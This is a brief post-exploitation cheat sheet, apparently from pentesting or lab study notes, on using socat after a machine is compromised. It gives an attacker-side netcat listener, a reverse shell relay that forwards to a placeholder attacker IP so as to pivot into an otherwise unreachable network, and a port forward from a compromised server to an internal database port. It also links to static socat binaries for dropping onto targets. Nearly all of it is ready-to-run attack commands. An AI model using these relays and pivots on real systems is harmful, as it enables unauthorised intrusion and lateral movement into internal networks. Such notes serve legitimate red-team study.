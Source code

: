 ### socat  

## Reverse Shell Relay  

After setting up a listener on the attacker machine e.g.  

`nc -lvnp 443`  

A reverse shell relay can be created on the compromised machine to pivot into a previous unreachable network.  

`./socat tcp-l:8000 tcp:ATTACKING_IP:443 &`  

## Port Forward  

Compromised server is 172.0.0.5:33060 and the target is 172.16.0.10:3306.

`./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &`


Static Linux binary.  

https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat  

Static Windows binary.  

https://sourceforge.net/projects/unix-utils/files/socat/1.7.3.2/socat-1.7.3.2-1-x86_64.zip/download
